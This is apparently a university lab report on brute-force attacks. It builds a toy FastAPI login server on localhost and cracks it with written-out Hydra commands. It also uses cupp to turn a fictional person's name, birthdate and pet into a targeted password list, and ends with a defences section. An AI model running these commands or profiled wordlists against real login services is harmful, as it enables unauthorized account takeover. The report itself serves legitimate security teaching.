


# Lab 12. Brute-Force Attacks

- **Course:** COM-424.1 Information Security, AUCA
- **Student:** Imran Sahak
- **Environment:** Linux (Kali VM / Ubuntu playground)

> **Ethics & scope.** Everything in this lab is performed against a **toy login
> server I built myself, running on `localhost`**, with credentials I set. Running
> these tools against any system you do not own or have **written permission** to
> test is illegal (unauthorized access) and a violation of university policy. The
> point of the lab is to understand how the attack works so it can be **defended
> against** — see *Defences* below.

## Goal

Understand brute-force attacks, run one with **Hydra** against a local test server,
and (the task) use personal information about a target to generate a smarter,
targeted wordlist.

## Types of brute-force attack

| Type | Idea |
|------|------|
| Simple brute-force | try every possible combination |
| Dictionary attack | try a list of common passwords (`password123`, `qwerty`) |
| Credential stuffing | reuse leaked username/password pairs on other sites |
| Reverse brute-force | one common password tried against many usernames |
| Hybrid | dictionary words + variations (append numbers/symbols) — **the task** |

**Hydra** is an open-source tool that automates these against login services (SSH,
FTP, HTTP forms, databases, …), trying many combinations in parallel.

---

## Part 1. Brute-force a local test server with Hydra

### 1. Build a toy login server (FastAPI)

The target is a server I control, so there is no real victim.

```bash
mkdir brute-force-server && cd brute-force-server
python3 -m venv venv
source venv/bin/activate
pip install "fastapi[standard]"
```

`main.py`:
```python
from typing import Annotated
from fastapi import FastAPI, Form

app = FastAPI()
ADMIN_USERNAME = "admin"
ADMIN_PASSWORD = "12345admin"

@app.post("/login")
def login(username: Annotated[str, Form()], password: Annotated[str, Form()]):
    if username == ADMIN_USERNAME and password == ADMIN_PASSWORD:
        return "secret token"
    return "Invalid credentials"
```
Run it:
```bash
fastapi dev main.py        # serves on http://127.0.0.1:8000
```
A correct login returns `"secret token"`; anything else returns
`"Invalid credentials"` — that word is what Hydra uses to tell failures apart.

> **Note:** in my run I used an equivalent dependency-free server written with
> Python's built-in `http.server` (to avoid a `pip` conflict in the environment).
> It behaves identically — returns `secret token` for the right credentials and
> `Invalid credentials` otherwise — so the Hydra attack is exactly the same.

### 2. Install Hydra and prepare wordlists

```bash
sudo apt update && sudo apt install -y hydra
```
`usernames.txt`:
```
root
admin
user
test
```
`passwords.txt` (a small dictionary; the real password is in it so the demo
succeeds):
```
password
123456
qwerty
admin
12345admin
letmein
```

### 3. Run the attack

```bash
hydra -f -I -V -L usernames.txt -P passwords.txt -s 8000 localhost \
  http-form-post "/login:username=^USER^&password=^PASS^:F=Invalid"
```

| Flag | Meaning |
|------|---------|
| `-f` | stop after the first valid login |
| `-I` | ignore an existing restore file |
| `-V` | show every attempt |
| `-L` / `-P` | username / password list |
| `-s 8000` | target port |
| `http-form-post` | attack an HTTP POST form |
| `^USER^` / `^PASS^` | where Hydra substitutes each guess |
| `F=Invalid` | treat a response containing "Invalid" as a failure |

**Output:**
```
[ATTEMPT] target 127.0.0.1 - login "admin" - pass "12345admin" - 11 of 24 ...
[8000][http-post-form] host: 127.0.0.1   login: admin   password: 12345admin
1 of 1 target successfully completed, 1 valid password found
```
Hydra tried username/password combinations until it hit `admin` / `12345admin`,
then reported the valid pair. The whole thing took a fraction of a second because
the password was in the list and there was no rate limiting.

---

## Part 2. Task — targeted wordlists from a victim's personal info

A smart attacker does not guess blindly; they build a wordlist from what they know
about the target (name, surname, nickname, date of birth, pet, partner), because
people base passwords on these. The standard tool is **cupp** (Common User Passwords
Profiler).

```bash
sudo apt install -y cupp     # or: git clone https://github.com/Mebus/cupp.git
cupp -i                      # interactive: asks for the victim's details
```

cupp asks for first name, surname, nickname, birthdate, partner, child, pet,
company, etc., and then generates every plausible combination. For a fictional
target **"John Smith, born 15/06/1990, pet Rex"** it produced **6,731 candidate
passwords**, including:
```
John061990     Johnny1990     Smith1990      Rex1990
John0619905    johnny15       john1506       Rex061990
John1990       smith061990    15061990       ...
```
(Adding "special chars" and "random numbers" options multiplies these further, and
"leet mode" adds variants like `j0hn`.)

Then that targeted list is fed straight into Hydra:
```bash
hydra -f -I -V -l admin -P john.txt -s 8000 localhost \
  http-form-post "/login:username=^USER^&password=^PASS^:F=Invalid"
```

This is the **hybrid attack**: dictionary words (the victim's personal data) combined
with variations. It is far more effective than a generic list against someone whose
password is something like `John1990` or `Rex061990` — which is exactly why such
passwords are dangerous.

---

## Defences (the real takeaway)

Understanding the attack shows how to stop it:

| Defence | Why it works |
|---------|--------------|
| **Rate limiting / account lockout** | the demo worked only because unlimited guesses were allowed; limiting attempts per IP/account makes brute-force impractical |
| **Multi-factor authentication (MFA)** | a guessed password alone is useless without the second factor |
| **Strong, unique, random passwords** | not based on name/DOB — defeats cupp-style targeted lists; a password manager makes this practical |
| **CAPTCHA** after failures | blocks automated tools like Hydra |
| **`fail2ban`** | bans IPs that make repeated failed logins |
| **Monitoring/alerting** | a burst of failed logins (as in the Hydra output) is a clear attack signature to detect |
| **No credential reuse** | defeats credential stuffing |

## Conclusion

In this lab I built a toy FastAPI login server on localhost and used Hydra to
brute-force it, recovering `admin` / `12345admin` from a dictionary in a fraction of
a second because there was no rate limiting. For the task I used cupp to turn a
target's personal information (name, surname, date of birth, pet) into 6,731 targeted
password guesses — a hybrid attack — and showed how that list feeds back into Hydra.
The key lesson is defensive: brute-force and personal-info passwords are beaten by
rate limiting, account lockout, MFA, `fail2ban`, and strong unique passwords that
are not derived from personal data. These techniques must only ever be used against
systems you own or are authorized to test.

## Screenshots

The Hydra brute-force finding the valid credentials:



cupp generating a targeted wordlist from personal information:


